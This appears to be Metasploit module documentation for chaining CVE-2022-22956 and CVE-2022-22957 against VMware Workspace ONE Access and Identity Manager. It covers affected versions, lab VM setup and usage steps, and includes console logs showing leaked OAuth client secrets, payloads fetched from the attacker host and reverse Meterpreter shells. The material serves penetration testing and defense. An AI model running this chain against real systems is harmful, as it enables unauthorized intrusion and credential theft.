 ## Vulnerable Application

This module combines two vulnerabilities in order achieve remote code execution in the context of the `horizon` user.
The first vulnerability CVE-2022-22956 is an authentication bypass in OAuth2TokenResourceController ACS which allows
a remote, unauthenticated attacker to bypass the authentication mechanism and execute any operation. The second
vulnerability CVE-2022-22957 is a JDBC injection RCE specifically in the DBConnectionCheckController class's dbCheck 
method which allows an attacker to deserialize arbitrary Java objects which can allow remote code execution.

CVE-2022-22956 & CVE-2022-22957:

| Vulnerable Application  | Vulnerable version  |
|---|---|
| VMware Workspace ONE Access (Access)   |  21.08.0.1, 21.08.0.0, 20.10.0.1, 20.10.0.0  |
| VMware Identity Manager (vIDM)  |  3.3.6, 3.3.5, 3.3.4, 3.3.3  |
| VMware vRealize Automation (vRA)  |  8.x, 7.6  |
| VMware Cloud Foundation | 4.x | 
| vRealize Suite Lifecycle Manager | 8.x |

### Setup

In order to download a vulnerable application you do need VMware Customer Connect credentials. Navigate to
[Download VMware Workspace ONE Access (VIDM)](https://customerconnect.vmware.com/downloads/info/slug/desktop_end_user_computing/vmware_workspace_one_access_vidm/20_10).
to download the OVA file.
During VM Configuration within VMware Fusion, in Addition Settings input the following:

#### Application:

Timezone: (timezone of your choice)

Join the VMware Custom Experience Improvement Program: (deselect)

#### Networking Properties: (note the following may depend on your network configuration)

Host Name (FQDN): access01.corp.local

Default Gateway: 192.168.123.1

Domain Name: (blank)

Domain Search Path: (blank)

DNS: 192.168.123.1

IP Address: 192.168.123.16
Network: 255.255.255.0

Add the following line to your `/etc/hosts` file:
`192.168.123.16 access.test.local`

Be sure to change the network adapter of the VM to the network adapter that corresponds to the subnet of the static IP address you assigned above.

#### GUI Setup

Once running navigate to https://access.test.local:8443/cfg/setup
in order to complete the following setup requirements:

Set Passwords
- Appliance Administrator Account
- Appliance Root Account
- Remote User Account

Select Database
- Database Type: Internal Database

## Verification Steps

1. Start msfconsole
1. Do: `use linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain`
1. Set the `RHOST`, `LHOST` and `TARGET` options
1. Run the module
1. Receive a Meterpreter session as the `horizon` user.

## Scenarios
### VMware Identity Manager 21.08.0.1-19010796
```
msf6 exploit(linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain) > set rhosts 192.168.123.16
rhosts => 192.168.123.16
msf6 exploit(linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Leaked client_id: acs
[+] Leaked client_secret: Oh2CB8n8PSrBER3NwXs41AaY3D49G7mt
[+] The target is vulnerable. Successfully by-passed authentication by exploiting CVE-2022-22956
[*] Using URL: http://192.168.123.1:8080/ONgtre.xml
[*] Sending stage (24772 bytes) to 192.168.123.16
[+] Now background this session with "bg" and then run "resource run_cve-2022-22960_lpe.rc" to get a root shell
[*] Meterpreter session 1 opened (192.168.123.1:4444 -> 192.168.123.16:53750) at 2023-04-07 10:28:46 -0400
[*] Server stopped.

meterpreter > getuid
Server username: horizon
meterpreter > sysinfo
Computer        : access01.corp.local
OS              : Linux 4.19.217-1.ph3 #1-photon SMP Thu Dec 2 02:29:27 UTC 2021
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.123.16 - Meterpreter session 1 closed.  Reason: Died
msf6 exploit(linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain) > set target 1
target => 1
msf6 exploit(linux/http/vmware_workspace_one_access_vmsa_2022_0011_chain) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Leaked client_id: Service__OAuth2Client
[+] Leaked client_secret: 869zxHSe5G7m7KAUSFm4iw3ByZOTdLRc
[+] The target is vulnerable. Successfully by-passed authentication by exploiting CVE-2022-22956
[*] Using URL: http://192.168.123.1:8080/mQUV.xml
[*] Using URL: http://192.168.123.1:8080/JlLraNNZdU
[*] Sending stage (3045348 bytes) to 192.168.123.16
[+] Now background this session with "bg" and then run "resource run_cve-2022-22960_lpe.rc" to get a root shell
[*] Meterpreter session 2 opened (192.168.123.1:4444 -> 192.168.123.16:53818) at 2023-04-07 10:29:26 -0400
[*] Command Stager progress - 100.00% done (116/116 bytes)

meterpreter > getuid
Server username: horizon
meterpreter > sysinfo
Computer     : access01.corp.local
OS           : VMware Photon OS 3.0 (Linux 4.19.217-1.ph3)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux

```
